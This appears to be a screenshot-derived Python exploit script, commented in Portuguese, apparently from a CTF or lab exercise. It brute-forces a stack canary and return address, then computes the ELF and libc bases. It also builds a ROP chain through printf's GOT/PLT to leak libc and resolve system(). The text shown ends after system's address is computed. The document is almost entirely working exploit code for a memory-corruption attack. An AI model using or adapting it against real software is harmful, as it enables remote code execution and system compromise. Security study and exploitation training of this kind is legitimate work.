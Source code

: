 ```python
print("[+] Procurando valor do CANARY...")
canary = b""
for i in range(8):
        canary = canary + bruteforce(offset + canary)
print(f"[+] Valor do CANARY: {canary.hex()}")

#incrementando o buffer com o valor do Canary + RBP
CANARY = offset + canary + rbp

#Inicio do Brute Force do endereco de retorno
print("[+] Procurando valor de retorno...")
ret = b""
for i in range(8):
        ret = ret + bruteforce(CANARY + ret)
ret = ret.ljust(8, b"\x00")
ret = u64(ret)[0]
print(f"[+] Valor de retorno: {hex(ret)}")

#Offset do endereco de retorno
offset_ret = 0x1246
#calculando o endereco base
elf_base = ret - offset_ret
print(f"[+] ELF BASE @ {hex(elf_base)}")

#Encontrando a Instrução Assembly no binário
#ROPgadget --binary prog --ropchain | grep rdi
pop_rdi = 0x12db + elf_base

#Encontrando offset da funcao printf
#objdump -d -M intel prog | grep printf
printf_got = 0x4028 + elf_base
printf_plt = 0x1050 + elf_base

#Encontrando o offset dafuncao main
#objdump -d -M intel prog | grep main
main = 0x1224 + elf_base

#Criando o payload
payload = CANARY
payload += p64(pop_rdi)
payload += p64(printf_got)
payload += p64(printf_plt)
payload += p64(main)

#Enviando o payload
p.send(payload)
#Recebendo a primeira linha
p.recv(1024)
#Recebendo a segunda linha
p.recv(1024)
#Salvando a terceira linha com o endereco da funcao PRINTF
elf_printf = p.recv(1024)
elf_printf = elf_printf.replace(b"Preencha meu buffer:", b"").strip()
elf_printf = u64(elf_printf.ljust(8, b"\x00"))[0]
print(f"[+] ELF PRINTF @ {hex(elf_printf)}")

#objdump -d -M intel libc/libc6_2.31-0ubuntu9_amd64 | grep _IO_printf
offset_printf = 0x64e10
libc_base = elf_printf - offset_printf
print(f"[+] LIBC BASE @ {hex(libc_base)}")

#objdump -d -M libc/libc6_2.31-0ubuntu9_amd64 libc | grep system
system = 0x55410 + libc_base
```
